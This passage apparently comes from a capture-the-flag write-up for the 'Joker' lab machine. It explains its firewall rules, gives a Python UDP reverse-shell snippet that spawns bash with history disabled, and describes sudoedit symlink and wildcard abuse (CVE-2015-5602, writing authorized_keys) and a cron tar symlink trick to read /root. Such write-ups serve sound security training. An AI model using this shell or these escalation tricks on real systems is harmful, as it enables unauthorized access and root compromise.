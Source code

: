 It begins by setting the default policy for inbound traffic to `DROP`, and for outbound and forward to `ACCEPT`. Going through the rules from the top:

- TCP 22 inbound is allowed;
- TCP 3128 inbound is allowed;
- All UDP inbound is allowed;
- All ICMP inbound is allowed;
- All localhost inbound is allowed;
- All new TCP connections outbound are dropped.

Since UDP is accepted inbound and not blocked outbound. You can get UDP reverse shell by using commands:

```python
import pty, os, socket

s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.connect((lhost, lport))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
os.putenv("HISTFILE",'/dev/null')
pty.spawn("/bin/bash")
```

{% endaccordion %}

{% accordion Why did the exploit succeed with sudoedit version 1.8.16? %}
`CVE-2015-5602` effects `sudo` versions less than and equal to `1.8.14`. But Joker has `sudo` version `1.8.16`.
When this vulnerability was patched in version `1.8.15`, they introduced the `sudoedit_follow`.

> Starting with version `1.8.15`, `sudoedit` will not follow symbolic links when opening files unless the `sudoedit_follow` option is enabled. The FOLLOW and NOFOLLOW tags override the value of sudoedit_follow and can be used to permit (or deny) the editing of symbolic links on a per-command basis. These tags are only effective for the sudoedit command and are ignored for all other commands.

So in order to not break the behavior if someone really wanted that, the `sudoedit_follow` flag allows it to behave like the version `1.8.14` and before. Notably, this flag is present in Joker's configuration.

{% endaccordion %}

{% accordion How to exploit wildcard abuse? %}
The command can run with sudo NOPASSWD as `sudoedit /var/www/*/*/layout.html`. What if you let the `*/*` be `[space].ssh/authorized_keys[space]`. The command the becomes `sudoedit /var/www .ssh/authorized_keys /layout.html`, which will try to open three files to edit. The first, `/var/www/` will fail because it's a directory. The second will open, and the third will allow you to edit the temporary file, but then won't be able to write `layout.html` at the system root.

{% endaccordion %}

{% accordion How to read file as root via symbolic link %}
Because root executes `tar` command on the `development` directory every five minutes, you can simply move the `development` directory and replace it with a symbolic link pointing to `/root`.

{% endaccordion %}
